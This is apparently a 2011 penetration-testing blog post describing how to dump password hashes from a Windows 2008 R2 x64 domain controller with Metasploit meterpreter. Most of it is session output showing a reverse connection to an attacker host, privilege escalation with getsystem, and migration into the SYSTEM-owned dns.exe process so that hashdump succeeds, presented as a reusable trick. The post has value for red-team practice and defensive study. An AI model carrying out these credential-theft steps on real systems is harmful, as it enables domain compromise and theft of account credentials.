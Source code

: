 = Dumping Hashes on Win2k8 R2 x64 with Metasploit
:hp-tags: hashdump, metasploit, meterpreter, cracking

When trying to dump password hashes on a Windows 2008 R2 64 bit box I constantly run into the "The parameter is incorrect" error in meterpreter. So I've had to fall back on dropping binaries which I really don't like doing because of the added clean up and chance of getting 'caught'. Well, with a bit of migration you'll be back to passing the hash. Here is how, with a bit of the thought process first:

```
                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       =[ metasploit v3.7.1-release [core:3.7 api:1.0]
+ -- --=[ 687 exploits - 364 auxiliary - 43 post
+ -- --=[ 217 payloads - 27 encoders - 8 nops
       =[ svn r12622 updated today (2011.05.15)

msf > 
[*] DC_IP:49220 Request received for /AYSBk...
[*] DC_IP:49220 Staging connection for target YSBk received...
[*] Patching Target ID YSBk into DLL
[*] DC_IP:49221 Request received for /BYSBk...
[*] DC_IP:49221 Stage connection for target YSBk received...
[*] Meterpreter session 7 opened (ATTACKER_IP:443 -> DC_IP:49221) at Sun May 15 21:37:31 +0000 2011

msf > sessions -i 7
[*] Starting interaction with 7...

meterpreter > sysinfo
System Language : en_US
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Computer        : DOMAINCONTROLLE
Architecture    : x64 (Current Process is WOW64)
Meterpreter     : x86/win32

meterpreter > ps

Process list
============

 PID   Name                                       Arch  Session  User                          Path
 ---   ----                                       ----  -------  ----                          ----
 0     [System Process]                                                                        
 4     System                                     x64   0                                      
 224   smss.exe                                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 324   csrss.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 364   csrss.exe                                  x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 372   wininit.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 404   winlogon.exe                               x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 468   services.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 476   lsass.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 484   lsm.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 628   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 708   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 804   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 836   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 880   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 932   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 972   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 328   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1172  spoolsv.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1204  Microsoft.ActiveDirectory.WebServices.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe
 1252  dfsrs.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dfsrs.exe
 1288  dns.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dns.exe
 1316  ismserv.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\ismserv.exe
 1360  svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1392  vmtoolsd.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 1464  wlms.exe                                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wlmswlms.exe
 1492  dfssvc.exe                                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dfssvc.exe
 1572  VMUpgradeHelper.exe                        x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\VMUpgradeHelper.exe
 1896  TPAutoConnSvc.exe                          x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
 2016  vds.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 872   sppsvc.exe                                 x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 1268  WmiPrvSE.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbemWmiPrvSE.exe
 2360  taskhost.exe                               x64   1        SITTINGDUCK\juser             C:\Windows\System32\taskhost.exe
 2424  dwm.exe                                    x64   1        SITTINGDUCK\juser             C:\Windows\System32\dwm.exe
 2452  explorer.exe                               x64   1        SITTINGDUCK\juser             C:\Windows\explorer.exe
 2504  TPAutoConnect.exe                          x64   1        SITTINGDUCK\juser             C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe
 2512  conhost.exe                                x64   1        SITTINGDUCK\juser             C:\Windows\System32\conhost.exe
 2632  VMwareTray.exe                             x64   1        SITTINGDUCK\juser             C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 2640  VMwareUser.exe                             x64   1        SITTINGDUCK\juser             C:\Program Files\VMware\VMware Tools\VMwareUser.exe
 2716  mmc.exe                                    x64   1        SITTINGDUCK\juser             C:\Windows\System32\mmc.exe
 3052  mscorsvw.exe                               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Frameworkv4.0.30319\mscorsvw.exe
 2216  TrustedInstaller.exe                       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 1932  mscorsvw.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft\.NET\Framework\64\v4.0.30319\mscorsvw.exe
 2564  svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1732  msdtc.exe                                  x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 2992  notepad.exe                                x86   1        SITTINGDUCK\juser             C:\Windows\SysWOW64\notepad.exe
 1720  notepad.exe                                x64   1        SITTINGDUCK\juser             C:\Windows\System32\notepad.exe


meterpreter > getpid
Current pid: 2992

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

Ah, the wonderful 'The parameter is incorrect' error. Ok we are an admin since we can see the user for SYSTEM processes, so that isn't the issue, but lets do a 'getprivs' just in case:

```
meterpreter > getprivs    
============================================================
Enabled Process Privileges
============================================================
  SeDebugPrivilege
  SeIncreaseQuotaPrivilege
  SeMachineAccountPrivilege
  SeSecurityPrivilege
  SeTakeOwnershipPrivilege
  SeLoadDriverPrivilege
  SeSystemProfilePrivilege
  SeSystemtimePrivilege
  SeProfileSingleProcessPrivilege
  SeIncreaseBasePriorityPrivilege
  SeCreatePagefilePrivilege
  SeBackupPrivilege
  SeRestorePrivilege
  SeShutdownPrivilege
  SeSystemEnvironmentPrivilege
  SeChangeNotifyPrivilege
  SeRemoteShutdownPrivilege
  SeUndockPrivilege
  SeEnableDelegationPrivilege
  SeManageVolumePrivilege

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

Boo.. Ok, so maybe we have to be 'SYSTEM'...

```
meterpreter > getsystem
...got system (via technique 1).

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

Still nothing... Maybe it requires that we be in a 64 bit process... PID 1720 was 64 bit version of Notepad, lets try that...

```
meterpreter > migrate 1720
[*] Migrating to 1720...
[*] Migration completed successfully.

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```
Damn, what about as 'SYSTEM'...

```
meterpreter > getsystem ...got system (via technique 1).  
meterpreter > hashdump 
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

No joy.. hmmm What about a 'SYSTEM' process that was already there.. 'dns.exe' PID 1288 should be good...

```
meterpreter > migrate 1288
[*] Migrating to 1288...
[*] Migration completed successfully.

meterpreter > hashdump
Administrator:500:MYLMHASH:MYNTLMHASH:::
Guest:501:MYLMHASH:MYNTLMHASH:::
krbtgtG:502:MYLMHASH:MYNTLMHASH:::
Domain Admin?:1000:MYLMHASH:MYNTLMHASH:::
juserN:1104:MYLMHASH:MYNTLMHASH:::
jane.user??:1105:MYLMHASH:MYNTLMHASH:::
DOMAINCONTROLLE$?:1001:MYLMHASH:MYNTLMHASH:::

meterpreter > 
```

w00t. So I don't know why, but it seems that you have to be in a 'SYSTEM' process who's primary token (started by SYSTEM) is SYSTEM (since 'getsystem' wasn't working). I also tried this getting SYSTEM to run a 32 bit process, and was still unable to dump hashes. So next time you're on an Win2k8 R2 64 bit box, remember to migrate into a pre-existing 64bit SYSTEM process and you should be good to go.

**Update** on 2011-05-15 23:39 by Rob Fuller

As Gavin points out in the comments, it is better to run the meterpreter script or post module to do hashdumping on systems. The only time this is not the case is when you are trying to get domain hashes on a domain controller. The registry does not store these hashes (as far as I know). So LSASS injection is the only route and you have to jump through the mentioned hoops.
